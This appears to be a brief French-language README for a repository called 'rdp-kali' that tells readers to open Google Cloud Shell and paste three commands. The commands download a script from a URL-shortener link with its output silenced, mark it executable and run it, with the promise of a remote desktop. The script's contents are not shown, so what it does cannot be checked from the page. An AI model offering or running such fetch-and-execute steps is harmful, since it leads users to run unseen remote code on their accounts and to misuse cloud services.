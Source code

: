 # rdp-kali
rdp kali
# Lancer le shell google et executez :

***************************************************
wget -O hous.sh shorturl.at/Z0249 > /dev/null 2>&1
chmod +x hous.sh
./hous.sh

- profitez bien de votre rdp.
